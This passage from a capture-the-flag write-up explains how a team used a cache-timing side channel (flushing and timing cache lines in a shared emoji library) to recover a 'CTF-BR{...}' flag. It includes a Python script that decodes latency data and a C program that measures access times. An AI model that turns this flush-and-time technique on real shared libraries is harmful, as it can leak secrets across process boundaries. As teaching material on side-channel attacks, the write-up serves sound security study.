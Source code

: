 We then wrote a small python script, which would iterate over all of these graphs
and give us the characters that were used in the flag.

```python
import os
for x in os.listdir("."):
    arr = [y & 0xff for y in open(x, "rb").read()]
    if min(arr) < 180: # 180 cycles Threshold
        off = int(x.split(".")[0].split("_")[1], 16)
        off //= 0xa0*4
        print(chr(off+0x2d), "is in the flag")
```

The result was, that the flag must be made out of the characters `swR}W-FBL{TCdc3l10ne4_rbi`.

Graphing the latency-data for `C` showed a regular pattern of a single spike with an approximatly constant frequency.
This lead us to believe that the char `C` occured exactly once in the flag, and the observed frequency was the outer loop which took somewhat over 7ms in total. (5000µs sleep in the outer loop + appox 2000µs for printing the flag itself)

Based on the flag format `CTF-BR{....}` we could assume that this spike is the start of a new Flag. This key information now enhanced our script.
We would no longer search for just a single character, but two, namely `C` as our reference and our target char, in the following examples `e`.

```C
int main(int argc, char **argv) {
    void *emojilib = getEmojis();

    uint64_t deltas[ITERATIONS];

    for (int i = 0; i < ITERATIONS; i++){
        clflush(emojilib + 0x3700);  // C-Offset
        clflush(emojilib + LIB_OFFSET);
        //usleep(1);  // You mustn't use syscalls in here
        pseudo_sleep(3000);
        if (160 > time_foo(emojilib + 0x3700)){
            deltas[i] = 1;
            i++;
        }

        deltas[i] = time_foo(emojilib + LIB_OFFSET);
    }

    for (int i = 0; i < ITERATIONS; i++){
        if (deltas[i] > 255) deltas[i] = 255;
        printf("%c", (char) deltas[i]);
    }

    return 0;
}
```

Having found a `C`-Spike (with a pretty hard threshhold to not find any false positives) we would inject a single `(char) 1` into the byte-stream. We chose it for the simple reason that it should be impossible to have a meassured amount of one cpu cycle and we weren't sure if `printf("%c", 0);` would print anything, so we just took the next best thing.
